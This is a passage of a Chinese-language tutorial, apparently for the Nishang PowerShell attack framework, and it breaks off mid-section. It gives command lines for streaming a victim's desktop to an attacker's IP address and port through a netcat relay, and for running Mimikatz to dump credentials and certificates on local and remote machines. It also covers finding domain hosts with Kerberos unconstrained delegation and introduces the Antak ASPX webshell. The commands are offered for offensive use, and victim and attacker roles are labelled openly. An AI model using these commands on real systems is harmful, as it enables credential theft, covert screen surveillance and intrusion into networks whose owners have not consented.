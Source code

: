 ```powershell
PS > Get-PassHints
```
#### Show-TargetScreen
使用MJPEG传输目标机器的远程桌面的实时画面，在本机我们可以使用NC或者Powercat来进行监听。在本地使用支持MJPEG的浏览器（如：Firefox）访问本机对应监听端口，即可在浏览器上面看到远端传输回来的实时画面。

```powershell
PS > Show-TargetScreen -Reverse -IPAddress 192.168.230.1 -Port 443  //将远程的画面传送到192.168.230.1的443端口
```
测试
Victim：

```powershell
Show-TargetScreen -IPAddres 192.168.199.127 -Port 5773 -Reverse
```
Attacker：

```powershell
nc.exe -nlvp 5773 | nc.exe -nlvp 9000 //这里我使用的NC，也可以用Powercat
```
本机访问：127.0.0.1:9000
![show-targetscreen](https://raw.githubusercontent.com/myoss114/oss/master/uPic/framework/show-targetscreen.jpg)

#### Invoke-Mimikatz
Mimikatz大家都非常熟悉了，就不再介绍了
执行方式：

```powershell
Invoke-Mimikatz -DumpCerts //Dump出本机的凭证信息
Invoke-Mimikatz -DumpCreds -ComputerName @("computer1", "computer2") //Dump出远程两台计算机的凭证信息
Invoke-Mimikatz -Command "privilege::debug exit" -ComputerName "computer1" //在远程一台机器上运行Mimikatz并执行"privilege::debug exit"
```


### 1.域相关脚本
#### Get-Unconstrained
查找域内开启了Kerberos Unconstrained Delegation的机器。
执行方式：

```powershell
PS > Get-Unconstrained //返回开启的计算机名
PS > Get-Unconstrained -Details  //返回更详细的信息
```

关于"通过Kerberos Unconstrained Delegation获取到域管理员"：
http://www.freebuf.com/articles/terminal/98530.html

### 2.Antak Webshell
#### Antak
一个ASPX的Webshell，通过这个Webshell可以编码、执行脚本，上传、下载文件。
![Antak_UI][7]
执行方式：
